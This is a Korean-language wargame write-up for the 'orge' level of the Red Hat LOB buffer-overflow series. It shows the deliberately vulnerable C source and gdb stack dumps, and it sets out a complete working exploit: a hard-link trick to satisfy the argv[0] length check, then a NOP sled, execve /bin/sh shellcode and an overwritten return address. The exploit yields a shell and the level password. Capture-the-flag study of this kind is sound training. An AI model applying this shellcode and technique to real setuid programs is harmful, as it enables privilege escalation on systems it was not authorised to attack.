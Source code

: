 ============================================================================================================
[redhat-lob] (7) orge
============================================================================================================


.. graphviz::

    digraph foo {
        a -> b -> c -> d -> e;

        a [shape=box, label="argv[1] value"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="RET"];
        e [shape=box, label="argv[1] address"];
    }


|

Source Code
============================================================================================================

.. code-block:: c

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        // here is changed!
        if(strlen(argv[0]) != 77){
            printf("argv[0] error\n");
            exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
            memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
            printf("argument is too long!\n");
            exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
    }

|

Vulnerabliity Vector
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 된다.

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte)
    SFP     (4byte)
    RET     (4byte)  <- strcpy overflow
    argc    (4byte)  <- 0x00000002
    argv[0] (4byte)  <- argv[0] 주소
    argv[1] (4byte)  <- argv[1] 주소
    ----------------
    HIGH    
    ================


|

Buffer Overflow
============================================================================================================

Overflow condition 

- environ을 초기화하여 환경 변수 사용를 통한 쉘코드 삽입이 불가능하다.
- argv[0]의 길이가 77이어야 함
- argv[1]의 47번째 문자열이 "\\xbf"이어야 함
- argv[1]의 길이가 47이하 이어야 함

.. code-block:: console

    ※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행
    $ bash2
    $ ./orge `python -c 'print "a"*47'`

    argv[0] error

    $ ./orge `python -c 'print "a"*47+"\xbf"'`

    argv[0] error

이번 문제는 argv[0]의 길이가 77 바이트를 만족해야 버퍼오버플로우를 진행할 수 있다.
77바이트의 길이를 가진 파일을 하나 생성하여 ln 명령으로 링크를 걸어준다. 
( 앞에 "./"가 있으므로 75바이트를 생성하면 된다. )

.. code-block:: console

    $ ln orge `python -c 'print "a"*75'`
    $ ls
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa  orge  orge.c
    $ ./`python -c 'print "a"*75'` a
    stack is still your friend.


|


exploit
============================================================================================================

기존 문제들의 경우 실행 파일명(argv[0])의 길이에 대한 제한이 없었으나, 해당 문제는 실행 파일명의 길이가 77으로 제한되어 있어 해당 부분을 우회하여야 한다.

argv[1]이 저장되는 주소 확인
------------------------------------------------------------------------------------------------------------

앞의 조건에 argv[1][47]값이 "\\xbf"인지 확인하기 때문에, gdb를 이용하여 argv[1]이 저장되는 주소(buffer)를 찾는다.

.. code-block:: console

    (gdb) b *main
    Breakpoint 1 at 0x8048500

    (gdb) r `python -c 'print "a"*47+"\xbf"'`
    Starting program: /home/darkelf/./aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa `python -c 'print "a"*47+"\xbf"'`
    /bin/bash: /home/goblin/.bashrc: Permission denied

    Breakpoint 1, 0x8048500 in main ()

    (gdb) stepi
    0x8048501 in main ()

    (gdb) i reg $esp
    esp            0xbffffa48       -1073743288

    (gdb) i reg $ebp
    ebp            0xbffffa68       -1073743256

    (gdb) x/100x $esp

    ==========================================================================
    0xbffffa48:     0xbffffa68      0x400309cb      0x00000002      0xbffffa94
    0xbffffa58:     0xbffffaa0      0x40013868      0x00000002      0x08048450
    0xbffffa68:     0x00000000      0x08048471      0x08048500      0x00000002
    0xbffffa78:     0xbffffa94      0x08048390      0x0804866c      0x4000ae60
    0xbffffa88:     0xbffffa8c      0x40013e90      0x00000002      0xbffffb90
    0xbffffa98:     0xbffffbec      0x00000000      0xbffffc1d      0xbffffc3f
    0xbffffaa8:     0xbffffc49      0xbffffc57      0xbffffc76      0xbffffc86
    0xbffffab8:     0xbffffc9f      0xbffffcbb      0xbffffcda      0xbffffce5
    0xbffffac8:     0xbffffcf3      0xbffffd35      0xbffffd48      0xbffffd5d
    0xbffffad8:     0xbffffd6d      0xbffffd7a      0xbffffd98      0xbffffda3
    0xbffffae8:     0xbffffdb4      0xbffffdc6      0xbffffdd5      0xbffffddd
    0xbffffaf8:     0x00000000      0x00000003      0x08048034      0x00000004
    0xbffffb08:     0x00000020      0x00000005      0x00000006      0x00000006
    0xbffffb18:     0x00001000      0x00000007      0x40000000      0x00000008
    0xbffffb28:     0x00000000      0x00000009      0x08048450      0x0000000b
    0xbffffb38:     0x000001fa      0x0000000c      0x000001fa      0x0000000d
    0xbffffb48:     0x000001fa      0x0000000e      0x000001fa      0x00000010
    0xbffffb58:     0x0fabfbff      0x0000000f      0xbffffb8b      0x00000000
    0xbffffb68:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffb78:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffb88:     0x69000000      0x00363836      0x6d6f682f      0x61642f65
    0xbffffb98:     0x6c656b72      0x2f2e2f66      0x61616161      0x61616161
                                                      ^               ^
    0xbffffba8:     0x61616161      0x61616161      0x61616161      0x61616161
                      ^               ^               ^               ^
    0xbffffbb8:     0x61616161      0x61616161      0x61616161      0x61616161
                      ^               ^               ^               ^ argv[1] = 0xbffffbc7
                                                                            
    0xbffffbc8:     0x61616161      0x61616161      0x61616161      0x61616161
    ==========================================================================


|

RET 주소를 argv[1] 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- "\x90"*19 + shellcode(21)
    SFP     (4byte)  <- shellcode(4)
    RET     (4byte)  <- argv[1] address
    argc    (4byte)  <- 0x00000002
    argv[0] (4byte)  <- argv[0] 주소
    argv[1] (4byte)  <- argv[1] 주소
    ----------------
    HIGH    
    ================

|

오버플로우시 RET 주소를 argv[1] 주소로 변경하여 해당 쉘코드가 실행되도록 한다. buffer의 최초 주소값을 확인하여 4바이트씩 증가하면서 주소를 변경하면서 공격을 진행하면 성공시킬 수 있다.

nop (19 byte) + shellcode (25 byte) + argv[1] address

.. code-block:: console

    $ ./`python -c 'print "a"*75'` `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\xc7\xfb\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀▒▒▒▒
                                           
    bash$ whoami
    orge
    bash$ my-pass
    euid = 507
    timewalker


